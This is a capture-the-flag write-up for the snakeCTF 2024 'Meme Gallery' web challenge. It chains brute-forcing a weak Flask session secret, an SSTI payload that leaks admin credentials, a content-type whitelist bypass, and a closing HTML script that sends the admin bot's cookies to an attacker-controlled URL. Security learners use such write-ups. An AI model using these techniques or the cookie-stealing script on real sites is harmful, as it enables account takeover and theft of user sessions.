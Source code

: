 # Meme Gallery [_snakeCTF 2024 Quals_]

**Category**: web

## Description

Share your favourite memes with the admins.

### Hints

- Oh God, my secret rocks!

## Solution

From the source it is clear that the application is a platform to share memes. Moreover:

- Memes are uploaded in a minio object storage
- There is an admin bot with the flag in the cookies

It's possible to register an account and upload some pictures:

![An example uploaded meme](./images/examplememe.jpg)

When trying to submit the image to the admin, an error occurs: `I'm not interested in this naive memes`. The reason for this error is clearly stated in the code:

```js
@blueprint.route("/list/<meme>/maketheadminlaugh", methods=["GET"])
@token_required
@with_db
def report(db, user, meme):
    bucket = "supermemes"

    found = db.meme_bucket(meme)
    if found is None:
        return {"error": "Nonexistent meme is the new meme"}, 404
    if found != bucket:
        return {"error": "I'm not interested in this naive memes"}, 400
    res = requests.post(
        BOT_ADDRESS,
        data={"url": f"{current_app.config['APP_ADDRESS']}/get/{quote_plus(meme)}"},
    )
    ...
```

The bucket on which the memes are uploaded is defined in the following function:

```js
def bucket_for(user):
    if user.admin:
        return "supermemes"
    else:
        return "memes"
```

```js
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]
    ...
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

To show a meme to the bot (the only interaction possible), admin privileges are required. The only way to gain them is to know the admin credentials:

```js
@property
def admin(self):
    return (
        self._username == current_app.config["ADMIN_USERNAME"]
        and self._password == current_app.config["ADMIN_PASSWORD"]
    )
```

### Getting the admin credentials

In the first few lines of `app.py`, credentials are saved in the app config:

```js
app.config["ADMIN_USERNAME"] = environ.get("ADMIN_USERNAME", "");
app.config["ADMIN_PASSWORD"] = environ.get("ADMIN_PASSWORD", "");
```

This means that leaking the config provides a way to log in as admin an and upload memes to the `supermemes` bucket.
The authentication endpoints are clearly vulnerable to [SSTI](https://portswigger.net/web-security/server-side-template-injection):

```js
@blueprint.route("/user", methods=["GET"])
@token_required
def user_info(user):
    return render_template_string(f"uid={user.id}({{{{name}}}})", name=user.name), 200
```

In this route, the `user.id` is not sanitized and is directly printed in the template string before passing it to the template engine. If the attacker has control over `user.id`, this would be vulnerable to SSTI!

To exploit this vulnerability it is required to understand how the authentication is handled.
The `token_required` decorator is defined as follows:

```js
def token_required(f):
    @wraps(f)
    def decorated(*args, **kwargs):
        ...
            logged_user = json.loads(session.get("user"), cls=UserDecoder)
            db = AppDataStorage(DB_FILE, OS_ADDRESS)
            res = db.find_user(logged_user.name)
            if res is None or res[2] != logged_user.password:
                return (
                    {"error": "Invalid token"},
                    500,
                    {"Set-Cookie": "session=;Max-Age=0;"},
                )
        ....

        return f(logged_user, *args, **kwargs)
    ...
```

The `logged_user` is taken from the `session` and parsed with a custom decoder:

```js
class UserDecoder(json.JSONDecoder):
    def decode(self, encoded):
        parsed = json.loads(encoded)
        id = parsed["id"]
        username = parsed["username"]
        password = parsed["password"]
        if len(encoded) > 85 or len(username) < 5 or len(password) < 32:
            raise json.JSONDecodeError("Unusual behavior detected", "", 0)
        return User(id, username, password)
```

The `session` cookie is [cryptographically signed](https://flask.palletsprojects.com/en/3.0.x/quickstart/#sessions), so in order to change the session object the generation of a valid signature is required. Is the session secret safe?

```js
app.config["SECRET_KEY"] = environ.get("SECRET_KEY", None) or randbytes(4)
```

[Flask-unsign](https://github.com/Paradoxis/Flask-Unsign) is a tool with the objective to bruteforce flask sessions against a wordlist (such that [rockyou](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt)) and forge new valid sessions.
It can be used in this case, since the secret is weak:
![Bruteforcing the cookie](./images/brute.jpg)

A payload for SSTI, such that `{{config}}`, can be signed to leak the app's config.
![Signing the payload](./images/sign.jpg)
![App config leaked](./images/appconfig.jpg)

Notice that the check for `len(encoded) > 85` is present in order to (hopefully) avoid the SSTI to develop into an RCE. The length is enough to contain the `"{{config}}"` payload and white spaces can be removed from the JSON data to save some characters.

### Getting the XSS

With the admin credentials, it is possible to log in and upload memes to the `supermemes` bucket.
Since the flag is in the admin cookies, some kind of XSS can be used to steal it.
From the `report` function shown above, it is clear that the bot visits the `/get/<meme>` endpoint, and returns the object stored in the bucket:

```js
@blueprint.route("/get/<meme>", methods=["GET"])
@token_required
@with_db
def get_object(db, user, meme):
    bucket = bucket_for(user)
    found = db.find_meme(meme, bucket)
    if found is None:
        return {"error": "Meme not found!"}, 404
    o = db.retrieve_meme_data(meme, bucket)

    return Response(o.stream(), o.status, o.headers.items())
```

The uploaded file is clearly the injection point, but the upload route implements some security checks:

```js
ct_whitelist = [("image", "jpeg"), ("image", "png")]
ext_whitelist = [".png", ".jpeg", ".jpg"]
....
@blueprint.route("/upload", methods=["POST"])
@token_required
@with_db
def upload(db, user):
    bucket = bucket_for(user)
    file = request.files["file"]

    if file.filename is None:
        return {"error": "Invalid meme"}, 400

    exts = map(lambda x: file.filename.endswith(x), ext_whitelist)
    if not any(exts):
        return {"error": "Invalid extension"}, 400

    objs = db.bucket_memes(bucket)
    if file.filename in objs:
        return {"error": "Meme exists"}, 400

    content = file.stream.read()
    content_type = mimeparse.parse_mime_type(file.content_type)
    if len(content_type) != 3:
        return {"error": "Invalid Content-Type"}, 400
    cts = map(
        lambda x: x[0] == content_type[0]
        and x[1] == content_type[1]
        and content_type[2] == {},
        ct_whitelist,
    )
    if not any(cts):
        return {"error": "Content-Type not allowed!"}, 400
    db.add_meme(file.filename, content, file.content_type, user.id, bucket)
    ...
```

The file extension and the content type are checked against a whitelist, but the meme is stored with the original content type and not the parsed one.

On the internet an [interesting research](https://github.com/BlackFan/content-type-research/blob/master/XSS.md) on possible content types used for XSS is present.
One of the [Response Content-Type Tricks](https://github.com/BlackFan/content-type-research/blob/master/XSS.md#response-content-type-tricks) can be used to bypass the whitelist.
For example, by using `image/jpeg; ,text/html` as content type, the `mimeparse` library will report `('image', 'jpeg', {})` (since `,text/html` contains no valid parameters because [no `=` sign is present](https://github.com/falconry/python-mimeparse/blob/master/mimeparse/__init__.py#L43)), and the browser will interpret it as `text/html` and render it as a `html` page.
A html page in the content of the file can be used to extract the cookies, for example:

```html
<body>
    <script>
        document.location='<attacker_controlled_url>/' + btoa(document.cookie);
    </script>
</body>
</html>
```

This meme can be sent to the bot and steal the cookies.

